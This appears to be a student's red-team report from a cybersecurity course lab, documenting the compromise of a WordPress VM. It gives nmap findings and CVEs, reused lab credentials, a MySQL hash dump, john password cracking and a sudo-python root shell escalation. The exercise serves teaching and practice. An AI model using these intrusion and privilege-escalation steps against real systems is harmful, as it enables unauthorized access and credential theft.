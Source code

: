 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20cider%20scan.png)

<br>

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4
  - Port 80/tcp open http (service) Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp open rpcbind (service) 2-4 (RPC #100000)
  - Port 139/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X
  - Port 445/tcp open netbios-ssn (services) Samba smbd 3.X - 4.X

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on Target 1:
- Target 1
  - CVE-2021-28041 open SSH (Severity: High)
  - CVE-2017-15710 Apache https 2.4.10 (Severity: High)
  - CVE-2017-8779 exploit on open rpcbind port could lead to remote DoS (Severity: High)
  - CVE-2017-7494 Samba NetBIOS (Severity: Critical)


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/nmap%20-sV%20192.168.1.110.png)

<br>

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
   - **Exploit Used**
    - ssh into Michael's account and look through files in /var/www
    - Command: ssh michael@192.168.1.110
    - The username and password for Michael's account is identical: michael
    - Command: cd ../../var/www
    - Command: ls 
    - Command: grep -RE flag html
     
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/var:www%20and%20ls.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/grep%20command%20flag%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag%201.png)

<br>


  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
   - **Exploit Used**
    - Command: ssh michael@192.168.1.110 
    - The username and password for Michael's account is identical: michael
    - Command: locate *flag*
    - Command: cat /var/www/flag2.txt
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/locate%20*flag*.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/flag2.txt.png) 

<br>


  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
   - **Exploit Used**
    - Continued using michael shell to find the MySQL database password, logged into MySQL database, and found Flag 3 in wp_posts table.
    - Command: ls /var/www/html/wordpress/
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/ls%20wordpress:.png)
  
<br>

   - Command: cat /var/www/html/wordpress/wp-config.php
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/DB%20Username%20%26%20Password.png)

<br>

   - Used the credentials to log into MySQL and dump WordPress user password hashes.
    - DB_NAME: wordpress
    - DB_USER: root
    - DB_PASSWORD: R@v3nSecurity
    - Command: mysql -u root -p
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/mysql%20-u%20root%20-p%20command.png)

<br>

   - Search MySQL database for Flag 3 and Wordpress user password hashes:
    - Flag 3 found in wp_posts.
    - Password hashes found in wp_users.
    - Command: show databases;
    - Command: use wordpress;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20db%20and%20Use%20wordpress.png)
  
<br>
    - Command: show tables;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/show%20tables%3B.png)
  
<br>
    - Command: SELECT * FROM wp_posts;	
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%201.png)
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_posts%202.png)

<br>
   - Screenshot of Wordpress user password hashes:
    - Command: SELECT * FROM wp_users;
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/SELECT%20*%20FROM%20wp_users.png)


<br>
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
   - **Exploit Used**
    - Used john to crack the password hash obtained from MySQL database, secured a new user shell as Steven, escalated to root.
    - Cracking the hashed password using john.
    - Copied password hash from MySQL into ~/root/wp_hashes.txt and cracked with john to discover Steven’s password: pink84.
    - Command: john --show wp_hashes.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/john%20command.png)

<br>
   - Secure a user shell as the user whose password you cracked.
    - Command: ssh steven@192.168.1.110
    - Password: pink84
    - Escalating to root:
    - Command: sudo -l  
 
 
 ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20-l.png)

<br>
    - Command: sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
  
  
  ![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/sudo%20python%20-c%20'import%20pty%3Bpty.spawn(%22:bin:bash%22)'.png)
<br>
   - Search for the root directory for Flag 4.
    - Command: cd /root/
    - Command: ls
    - Command: cat flag4.txt


![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%201.png)
![ScreenShot](https://github.com/Jonathan-K88/Cybersecurity-Final-Project/blob/main/Images/cat%20flag4.txt%202.png)


